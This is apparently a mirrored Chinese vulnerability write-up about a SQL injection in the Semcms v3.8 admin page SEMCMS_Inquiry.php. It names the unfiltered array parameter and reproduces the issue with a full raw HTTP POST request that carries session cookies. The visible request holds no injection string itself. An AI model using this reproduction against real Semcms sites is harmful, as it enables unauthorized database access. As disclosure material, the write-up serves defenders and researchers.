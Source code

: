 # Semcms v3.8 sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Semcms/Semcms v3.8.html](http://book.iwonder.run/0day/Semcms/Semcms v3.8.html)

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.8

## 三、复现过程

> URL: [http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php](http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php)
> 
> ![image](img/47c2b0e6b35922a3c7d627ff89058636.png)Debug：Defense module is class.phpmailer.php and function inject_check_sql![image](img/12d61d05e0a569e76185bb07e935fb46.png)But VID[] didn't handle it

*   POST

```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 0-sec.org
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close

languageID=&AID%5B%5D=3 
```

![image](img/5f3ea90150dc8d386079389784303314.png)

